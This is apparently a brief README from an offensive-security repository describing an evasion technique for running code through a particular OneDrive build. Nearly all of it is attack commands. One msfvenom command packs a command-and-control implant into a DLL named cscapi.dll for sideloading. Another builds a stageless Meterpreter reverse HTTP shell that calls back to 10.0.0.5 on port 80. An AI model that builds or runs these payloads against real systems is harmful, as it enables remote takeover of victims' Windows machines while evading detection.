

# Evasion Code Execution

Make sure OneDrive Last released build 25.070.0413.0001 is installed <https://go.microsoft.com/fwlink/?linkid=844652>
```bash
cat demon.x64.bin | msfvenom -p - -a x64 --platform windows -f dll -o cscapi.dll
```

STAGELESS PAYLOAD

```bash
msfvenom -p windows/x64/meterpreter_reverse_http lhost=10.0.0.5 lport=80 -f csharp
```

